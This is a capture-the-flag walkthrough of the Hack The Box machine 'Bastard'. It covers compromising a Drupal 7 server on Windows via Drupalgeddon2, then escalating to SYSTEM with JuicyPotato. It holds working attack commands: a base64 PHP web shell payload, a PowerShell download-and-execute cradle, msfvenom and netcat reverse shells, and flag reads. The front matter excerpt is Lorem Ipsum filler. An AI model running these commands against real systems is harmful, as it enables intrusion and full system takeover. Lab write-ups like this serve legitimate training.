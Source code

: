 ```yaml
---
layout: single
title: Bastard - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-bastard/bastard_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
categories:
  - hackthebox
  - infosec
tags:  
  - windows
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-bastard/bastard_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/bastard]# nmap -Pn -n -sCV 10.10.10.9 --open                                                                       (master✱)
    PORT      STATE SERVICE VERSION
    80/tcp    open  http    Microsoft IIS httpd 7.5
    |_http-generator: Drupal 7 (http://drupal.org)
    | http-methods:
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 36 disallowed entries (15 shown)
    | /includes/ /misc/ /modules/ /profiles/ /scripts/
    | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
    | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
    |_/LICENSE.txt /MAINTAINERS.txt
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Welcome to 10.10.10.9 | 10.10.10.9
    135/tcp   open  msrpc   Microsoft Windows RPC
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  DIRB:


  NIKTO:



2. We can see that the server is running 'Drupal 7', which is very vulnerable. A quick google for 'drupal 7 rce exploit'
   and we find the ruby script drupalgeddon2, download it and exploit.

  [root:/git/htb/bastard]# ./drupalgeddon.rb http://10.10.10.9/                                                                     (master✱)
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [i] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.9/CHANGELOG.txt    (HTTP Response: 200)
    [+] Drupal!: v7.54
    --------------------------------------------------------------------------------
    [*] Testing: Form   (user/password)
    [+] Result : Form valid
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Clean URLs
    [+] Result : Clean URLs enabled
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution   (Method: name)
    [i] Payload: echo AFLLPNGO
    [+] Result : AFLLPNGO
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: Existing file   (http://10.10.10.9/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (./)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Existing file   (http://10.10.10.9/sites/default/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (sites/default/)
    [i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Existing file   (http://10.10.10.9/sites/default/files/shell.php)
    [i] Response: HTTP 404 // Size: 12
    - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
    [*] Testing: Writing To Web Root   (sites/default/files/)
    [*] Moving : ./sites/default/files/.htaccess
    [i] Payload: mv -f sites/default/files/.htaccess sites/default/files/.htaccess-bak; echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee sites/default/files/shell.php
    [!] Target is NOT exploitable [2-4] (HTTP Response: 404)...   Might not have write access?
    [!] FAILED : Couldn't find a writeable web path
    --------------------------------------------------------------------------------
    [*] Dropping back to direct OS commands
  drupalgeddon2>> whoami
    nt authority\iusr
  drupalgeddon2>> type C:\Users\dimitris\Desktop\user.txt
    ba22fde1932d06eb76a163d312f921a2


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Get a better shell, upgrade to Powershell.

  drupalgeddon2>> powershell.exe IEX(New-Object Net.Webclient).downloadString('http://10.10.14.8/ps-rev.ps1')

  [root:/srv/pub-share]# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.9 - - [02/Mar/2021 14:56:38] "GET /ps-rev.ps1 HTTP/1.1" 200 -

  root@nidus:/git/htb/bastard# rlwrap nc -lvnp 4488
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 50223
    PS C:\inetpub\drupal-7.54> whoami
      nt authority\iusr


2. Check your privs, and if it's possible to abuse them.

  PS C:\inetpub\drupal-7.54> whoami /all
    --- snip ---
    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name          Description                               State
    ======================= ========================================= =======
    SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
    SeImpersonatePrivilege  Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege Create global objects                     Enabled

'SeImpersonatePrivilege' is always interesting, this often mean we can get SYSTEM using JuicyPotato.


3. Juice up the potato!

Create a payload and put it on SMB Share:
  [root:/git/htb/bastard]# msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.8 lport=4499 > bastard-privesc.bat                (master✱)
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: cmd from the payload
    No encoder specified, outputting raw payload
    Payload size: 1583 bytes
  [root:/git/htb/bastard]# cp bastard-privesc.bat /srv/pub-share

Check system OS:
  PS C:\inetpub\drupal-7.54> systeminfo
    --- snip ---
    OS Name:                   Microsoft Windows Server 2008 R2 Datacenter

Upload JuicyPotato, grab a random CLSID (from JuicyPotato's GitHub) and exploit:
  C:\tmp> copy \\10.10.14.8\pub-share\JuicyPotato.exe .
  C:\tmp> JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c \\10.10.14.8\pub-share\bastard-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}

The command doesn't provide any output, feel like something is wrong with the PS session. Try directly from drupalgeddon instead.

  drupalgeddon2>> C:\tmp\JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c \\10.10.14.8\pub-share\bastard-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
    Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1444
    ....
    [+] authresult 0
    {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

    [+] CreateProcessWithTokenW OK

  [root:/srv/pub-share]# nc -lvnp 4499
    listening on [any] 4499 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.9] 50541
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
      nt authority\system

    C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt.txt
      4bf12b963da1b30cc93496f617f7ba7c


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


drupalgeddon2:
  https://github.com/dreadlocked/Drupalgeddon2

JuicyPotato:
  https://github.com/ohpe/juicy-potato

CLSIDs Windows 2008 R2:
  https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
